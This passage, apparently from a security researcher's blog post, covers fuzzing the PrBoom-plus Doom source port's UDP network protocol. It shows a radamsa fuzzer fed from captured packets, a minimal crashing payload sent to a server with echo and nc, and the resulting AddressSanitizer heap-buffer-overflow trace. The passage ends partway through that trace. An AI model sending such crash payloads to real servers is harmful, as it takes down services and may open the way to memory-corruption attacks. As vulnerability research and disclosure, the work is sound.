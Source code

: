 def start(seed, data):
  while True:
    for d in data:
      r = radamsa(d, seed)
      s(r)
    seed += 1

pcap = rdpcap("doom.pcap")
udps = [ p for p in pcap if UDP in p and p[UDP].dport == 5030 ]
data = list(set([ x[UDP].load[1:] for x in udps ]))
start(0, data)
{% endhighlight %}

Note: for some reason packets sent between the client and the server from the same machine didn't reach their destination. A workaround was to clone my virtual machine and run fuzzing from it.

## Crashes

After a while two crashes were found, the first one in the server, and the second one in the client. However, they are related and share similar bug.


### Server crash 1

Minimal payload to crash `\xb6\x05\x01\x01\x56\x33\x27\xff\x00`.
{% highlight x %}
# echo -n -e '\xb6\x05\x01\x01\x56\x33\x27\xff\x00' | nc -u 10.1.1.109 5030
{% endhighlight %}
results in:
{% highlight x %}
=================================================================
==29005==ERROR: AddressSanitizer: heap-buffer-overflow on address 0xb4f02810 at pc 0xb7a76866 bp 0xbf989f48 sp 0xbf989b18
WRITE of size 10991 at 0xb4f02810 thread T0
    #0 0xb7a76865  (/usr/lib/i386-linux-gnu/libasan.so.3+0x56865)
    #1 0x804e24c in I_SendPacketTo /root/projects/prboom-plus/prboom2/src/SDL/i_network.c:261
    #2 0x804ce71 in main /root/projects/prboom-plus/prboom2/src/d_server.c:708
    #3 0xb787c636 in __libc_start_main (/lib/i386-linux-gnu/libc.so.6+0x18636)
    #4 0x8049396  (/root/projects/prboom-plus/prboom2/bin/games/prboom-plus-game-server+0x8049396)

0xb4f02810 is located 0 bytes to the right of 10000-byte region [0xb4f00100,0xb4f02810)
allocated by thread T0 here:
    #0 0xb7ae3b44 in __interceptor_malloc (/usr/lib/i386-linux-gnu/libasan.so.3+0xc3b44)
    #1 0xb7714767  (/usr/lib/i386-linux-gnu/libSDL2-2.0.so.0+0x79767)
    #2 0x80499bf in I_InitSockets /root/projects/prboom-plus/prboom2/src/d_server.c:296
    #3 0x804a8d3 in main /root/projects/prboom-plus/prboom2/src/d_server.c:432
    #4 0xb787c636 in __libc_start_main (/lib/i386-linux-gnu/libc.so.6+0x18636)

SUMMARY: AddressSanitizer: heap-buffer-overflow (/usr/lib/i386-linux-gnu/libasan.so.3+0x56865) 
Shadow bytes around the buggy address:
  0x369e04b0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x369e04c0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x369e04d0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x369e04e0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x369e04f0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
=>0x369e0500: 00 00[fa]fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x369e0510: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x369e0520: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x369e0530: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x369e0540: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x369e0550: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
Shadow byte legend (one shadow byte represents 8 application bytes):
  Addressable:           00